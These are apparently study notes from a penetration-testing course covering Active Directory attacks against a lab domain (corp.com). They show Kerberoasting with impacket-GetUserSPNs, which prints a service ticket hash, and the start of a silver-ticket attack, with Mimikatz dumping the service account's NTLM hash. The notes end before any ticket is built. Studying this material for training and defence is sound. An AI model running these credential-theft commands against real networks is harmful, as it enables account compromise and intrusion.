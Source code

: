 Next, let's perform Kerberoasting from Linux. We can use _impacket-GetUserSPNs_[2](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/kerberoasting#fn2) with the IP of the domain controller as the argument for **-dc-ip**. Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash. As before, we can use **-request** to obtain the TGS and output them in a compatible format for Hashcat.

```bash
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```
## Silver Tickets (Crafting a valid ticket for a specific service - From Windows)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket

In general, we need to collect the following three pieces of information to create a silver ticket:
- SPN password hash
- Domain SID
- Target SPN

Now, we do not have permissions

```shell
PS C:\Users\jeff> iwr -UseDefaultCredentials http://web04
iwr :
401 - Unauthorized: Access is denied due to invalid credentials.
Server Error
...
```

Since we are a local Administrator on this machine where _iis_service_ has an established session, we can use Mimikatz to retrieve the SPN password hash (NTLM hash of _iis_service_), which is the first piece of information we need to create a silver ticket. Let's start PowerShell as Administrator and launch Mimikatz. As we already learned, we can use **privilege::debug** and **sekurlsa::logonpasswords** to extract cached AD credentials.

```shell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
```